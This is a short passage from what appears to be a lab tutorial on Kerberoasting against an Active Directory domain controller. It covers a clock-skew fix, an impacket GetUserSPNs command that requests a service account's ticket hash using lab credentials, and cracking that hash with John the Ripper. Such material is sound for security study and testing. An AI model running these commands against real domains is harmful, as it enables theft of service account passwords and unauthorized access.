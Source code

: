 <img src="/img/kerberosting/error1.PNG" alt="Getting-gz" width="800" height="300"> 

if you find this error from Linux: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) it because of your local time, you need to synchronise the host with the DC: ntpdate <IP of DC>

```
sudo ntpdate  192.168.128.140
```

<img src="/img/kerberosting/err2.PNG" alt="Getting-gz" width="1000" height="200"> 

Dumping ticket hashes
```
python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140 -request-user websvc
```
  
<img src="/img/kerberosting/2.PNG" alt="Getting-gz" width="1000" height="300"> 

## crack hash with john
```
john --wordlist=/usr/share/wordlists/rockyou.txt tgs
```
  
<img src="/img/kerberosting/john.PNG" alt="Getting-gz" width="1000" height="300"> 
  